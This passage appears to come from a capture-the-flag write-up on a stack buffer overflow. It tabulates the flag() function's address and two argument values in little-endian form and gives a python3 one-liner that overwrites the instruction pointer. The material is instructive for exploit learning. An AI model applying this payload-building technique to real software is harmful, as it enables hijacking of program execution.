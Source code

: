 <figure><img src="../.gitbook/assets/Untitled 21 (2).png" alt=""><figcaption></figcaption></figure>

So we have got all the necessary details to generate a input that overwrites the Instruction Pointer with the call for the `flag()` function. Now we can construct the input:

{% hint style="info" %}
Note: We have to provide the memory address values in the input in [Little-Endian Format](https://www.section.io/engineering-education/what-is-little-endian-and-big-endian/)
{% endhint %}

| Name/Function | Memory Address | Little Endian Fromat |
| ------------- | -------------- | -------------------- |
| flag()        | 0x080491e2     | \xe2\x91\x04\x08     |
| param1        | 0xdeadbeef     | \xef\xbe\xad\xde     |
| param2        | 0xc0ded00d     | \x0d\xd0\xde\xc0     |

```bash
python3 -c "import sys; sys.stdout.buffer.write(b'A'*188+b'\xe2\x91\x04\x08' + b'PADD' + b'\xef\xbe\xad\xde\x0d\xd0\xde\xc0')"
// Here I have used sys.stdout.buffer.write instead of print because 
// we are giving the input in bytes.
// Here I have used b'PADD' to add padding. Make sure to add this
// \x is used to mention that it is hexadecimal
```

<figure><img src="../.gitbook/assets/Untitled 22 (2).png" alt=""><figcaption></figcaption></figure>
